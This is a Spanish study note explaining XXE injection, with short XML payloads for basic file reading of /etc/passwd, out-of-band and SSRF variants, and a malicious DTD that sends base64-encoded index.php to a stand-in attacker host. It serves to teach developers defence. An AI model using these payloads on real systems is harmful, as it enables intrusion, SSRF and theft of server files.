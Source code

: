 ___

- Tags:

___
# Introducción

La Inyección de Entidades XML Externas (**XXE**) es una vulnerabilidad que se produce cuando una aplicación no valida correctamente las entradas [[XML]] del usuario, permitiendo la inclusión de [[Entidades|entidades externas]] no deseadas. En esta nota, exploraremos distintos aspectos de la **inyección XXE**, incluyendo la XXE básica, la XXE OOB (Out-of-Band), y el uso de un DTD malicioso.

___
# Inyección XXE Básica

La **inyección XXE** básica implica la manipulación de un documento [[XML]] para incluir entidades externas. Por ejemplo:

```xml
<!DOCTYPE nota [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<informacion>
  &xxe;
</informacion>
```

En este caso, la entidad `xxe` hace referencia al contenido del archivo externo `passwd`.

___
# Inyección XXE OOB (Out-of-Band)

La inyección **XXE OOB** es una variante en la que la aplicación atacada realiza solicitudes [[HTTP]] para enviar los resultados de la inyección a un servidor controlado por el atacante.

```xml
<!DOCTYPE nota [
  <!ENTITY % xxe SYSTEM "http://servidor_malicioso.com/xxe">
  %xxe;
]>

<informacion>
  Datos sensibles
</informacion>
```

En este ejemplo, `%xxe;` realiza una solicitud [[HTTP]] al servidor malicioso con los datos sensibles de la aplicación. Es importante destacar que esta técnica puede utilizarse para realizar Server-Side Request Forgery ([[SSRF]]), donde la aplicación atacada realiza solicitudes a recursos internos, como puertos, mediante URLs locales. Un ejemplo específico podría ser acceder a un puerto solo disponible por localhost:

```xml
<!DOCTYPE nota [
  <!ENTITY % xxe SYSTEM "http://localhost:8080/internal/resource">
  %xxe;
]>

<informacion>
  Datos sensibles
</informacion>
```

___
# DTD Malicioso 

Un **DTD malicioso** puede aprovecharse para ejecutar código malicioso en el servidor. Por ejemplo:

```xml
<!ENTITY % payload SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://servidor_malicioso.com/?data=%payload;'>">
%eval;
%exfil;
```

Este ejemplo utiliza el **DTD malicioso** para codificar en base64 el contenido del archivo `index.php` y enviarlo al servidor malicioso.

____
# Conclusiones

La **inyección XXE** es una vulnerabilidad seria que puede tener consecuencias significativas en la seguridad de una aplicación. Al comprender las variantes, como la inyección **XXE OOB** y el uso de **DTD maliciosos**, los desarrolladores pueden implementar medidas de seguridad adecuadas para prevenir este tipo de ataques.